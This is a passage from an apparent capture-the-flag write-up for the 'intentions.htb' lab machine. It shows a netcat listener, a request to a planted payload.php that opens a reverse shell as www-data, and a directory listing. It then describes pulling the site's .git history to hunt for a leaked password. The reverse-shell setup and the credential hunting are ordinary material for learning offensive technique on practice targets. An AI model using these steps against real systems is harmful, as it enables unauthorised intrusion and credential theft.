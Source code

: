 ##### Gettin a reverse shell
On local machine:
```bash
$ nc -l 1337
```

On remote host
```http
GET /payload.php HTTP/1.1
Host: intentions.htb
```

And we get a shell as **www-data**
```bash
www-data@intentions:/var/www/html/intentions$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Listing current directory and we can see .git
```
www-data@intentions:/var/www/html/intentions$ ls -la
total 820
drwxr-xr-x  14 root     root       4096 Feb  2 17:55 .
drwxr-xr-x   3 root     root       4096 Feb  2 17:55 ..
-rw-r--r--   1 root     root       1068 Feb  2 17:38 .env
drwxr-xr-x   8 root     root       4096 Feb  3 00:51 .git
-rw-r--r--   1 root     root       3958 Apr 12  2022 README.md
drwxr-xr-x   7 root     root       4096 Apr 12  2022 app
-rwxr-xr-x   1 root     root       1686 Apr 12  2022 artisan
drwxr-xr-x   3 root     root       4096 Apr 12  2022 bootstrap
-rw-r--r--   1 root     root       1815 Jan 29 19:58 composer.json
-rw-r--r--   1 root     root     300400 Jan 29 19:58 composer.lock
drwxr-xr-x   2 root     root       4096 Jan 29 19:26 config
drwxr-xr-x   5 root     root       4096 Apr 12  2022 database
-rw-r--r--   1 root     root       1629 Jan 29 20:17 docker-compose.yml
drwxr-xr-x 534 root     root      20480 Jan 30 23:38 node_modules
-rw-r--r--   1 root     root     420902 Jan 30 23:38 package-lock.json
-rw-r--r--   1 root     root        891 Jan 30 23:38 package.json
-rw-r--r--   1 root     root       1139 Jan 29 19:15 phpunit.xml
drwxr-xr-x   5 www-data www-data   4096 Feb  3 00:54 public
drwxr-xr-x   7 root     root       4096 Jan 29 19:58 resources
drwxr-xr-x   2 root     root       4096 Jun 19 11:22 routes
-rw-r--r--   1 root     root        569 Apr 12  2022 server.php
drwxr-xr-x   5 www-data www-data   4096 Apr 12  2022 storage
drwxr-xr-x   4 root     root       4096 Apr 12  2022 tests
drwxr-xr-x  45 root     root       4096 Jan 29 19:58 vendor
-rw-r--r--   1 root     root        722 Feb  2 17:46 webpack.mix.js
```

We downloaded that git repo to local machine, extracted it's content and read through all 4 commit messages. 
4/4 commit message says:
```
tree 5a19e7744f2e39cc72843304040e2b02d9e7ebea
parent 36b4287cf2fb356d868e71dc1ac90fc8fa99d319
author greg <greg@intentions.htb> 1674721312 +0100
committer vgo0 <perpetualdisonnance@protonmail.ch> 1675356941 -0500

Test cases did not work on steve's local database, switching to user factory per his advice
```
>This message indicates, that commit 3/4 has something interesting, probably gregs password or something. 
